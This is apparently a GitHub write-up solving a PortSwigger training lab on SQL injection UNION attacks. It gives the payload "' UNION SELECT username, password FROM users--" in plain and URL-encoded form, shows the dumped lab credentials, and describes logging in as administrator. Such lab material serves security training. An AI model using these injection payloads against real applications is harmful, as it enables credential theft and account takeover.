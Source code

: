 # SQL injection UNION attack, retrieving data from other tables

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___

**Note:** *The database contains a table called `users` with the columns `username` and `password`
In this situation, you can retrieve the contents of the `users` table by submitting the input:*
`' UNION SELECT username, password FROM users--`
URL Encoded =>`'+UNION+SELECT+username,+password+FROM+users--`

step 1

send `/filter?category=Lifestyle` to the repeater

![screnshot](images/lab5_category_lifestyle.jpg)

step 2

use `'+UNION+SELECT+username,+password+FROM+users--`
payload will be
`/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--`

![screnshot](images/lab5_username_password_from_user.jpg)

step 3 

Note down user id and password

```html
<tr>
	<th>carlos</th>
	<td>w3bl3kcw39b0n77j9m5v</td>
</tr>
<tr>
	<th>administrator</th>
	<td>o62bhcc293ztnchnuj5g</td>
</tr>
<tr>
	<th>wiener</th>
	<td>ot3d4fjz8zob5yzk7rbr</td>
</tr>
```

login the account using
administrator id  and password

![screnshot](images/lab5_solve_lab.jpg)